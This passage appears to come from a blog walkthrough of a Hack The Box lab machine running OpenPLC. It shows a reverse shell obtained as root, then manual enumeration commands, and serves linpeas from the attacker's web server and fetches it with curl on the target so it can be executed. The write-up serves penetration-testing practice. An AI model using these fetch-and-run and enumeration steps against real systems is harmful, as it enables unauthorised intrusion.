 We can clearly see the steps described above. Let's see if we get a connection back on our listener:

<div class="img_container">
![revsh]({{https://jsom1.github.io/}}/_images/htb_wifi_revsh.png)
</div>

It worked! Usually, we wouldn't "blindly" run an exploit like that, because we didn't know if OpenPLC was the correct version (we now see it is indeed "OpenPLC_v3"). 
In a real scenario, we would want to be sure that it is going to work. Anyways, it worked and in the end, that's what matters!\\
We see the hostname is *attica02*, and we're root on it... However, there is not root flag in the */root* directory. That would have been too easy...
However, the user flag can be found there.\\
Now, let's hunt for the root flag!

## 3. Horizontal privilege escalation
{:style="color:DarkRed; font-size: 170%;"}

I think it is the first time on Hack the Box I'm root but don't have the root flag. I'm not sure what to do, so let's start by looking around and do some manual enumeration.\\
For example, we can use the following commands:

```
cat /etc/passwd -> check if there are other interesting users (not the case)
ps -aux -> info on running process (nothing in particular)
find / -type f -name *.conf* 2>/dev/null -> looks for configuration files, throws "errors" away
.
.
.
```

Nothing really stands out, so let's download linpeas on the machine. On kali, we start a web server in the directory where *linpeas.sh* is located.
Then, we download it from the reverse shell, make it executable, and run it:

```
sudo python3 -m http.server 8001
curl -O http://10.10.14.4:8001/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh > .lp_out.txt
```

Note that we have to use *curl*, because *wget* is not installed on the target (we could also have installed it, or used *netcat*, *scp* or *ftp*).
We save the result into the file *.lp_out.txt*, so that we can easily *grep* keywords. In Linpeas' output, there is a *SQLite* database that we can check:

<div class="img_container">
![sqlite]({{https://jsom1.github.io/}}/_images/htb_wifi_sqlite.png)
</div>

I realized afterwards that this was totally useless; there is only one user, and it's the one we had seen in the OpenPLC dashboard (Users menu).
